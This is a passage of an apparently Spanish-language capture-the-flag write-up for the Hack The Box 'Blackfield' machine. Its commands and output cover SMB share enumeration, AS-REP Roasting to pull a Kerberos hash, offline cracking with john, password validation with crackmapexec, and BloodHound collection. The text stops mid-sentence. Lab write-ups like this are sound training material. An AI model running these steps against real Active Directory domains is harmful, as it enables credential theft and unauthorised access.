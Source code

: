 Se pueden observar distintos usuarios, así que crearé una montura en el equipo para trabajar más comódamente y crear un diccionario


```null
root@kali# mount -t cifs //10.10.10.192/profiles$ /mnt
Password for root@//10.10.10.192/profiles$: 
```

Una vez creado el diccionario con todos los usuarios, se puede probar un ASP-RepRoast Attack que consiste en comunicarse al Domain Controler por Kerberos para tratar de que alguno de estos usuarios no requiera autenticación previa del mismo, lo que permitirá obtener un TGT que se puede intentar crackear por fuerza bruta, ya que no aplica para PassTheHash

```null
root@kali# GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 
$krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0
```
Almacenaré el hash en un archivo para tratar de crackearlo

```null
john -w:$(locate rockyou.txt) hash
```

#### Validación de credenciales por crackmapexec

```null
root@kali# crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
```

En caso de que el usuario pertenezca al grupo *Remote Management Users* me podré conectar directamente usando evil-winrm

```null
root@kali# crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\support:#00^BlackKnight "Failed to authenticate the user support with ntlm"
```

#### Enumeración con BloodHound-python

```null
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192 -c All
```

Esto dumpeará datos del domain controller que me permitirán encontrar formas de elevar privilegios

Para ello, hay que abrir BloodHound y subir los datos

```null
sudo neo4j console
bloodhound &>/dev/null & disown
```
Se puede observar el siguiente privilegio:
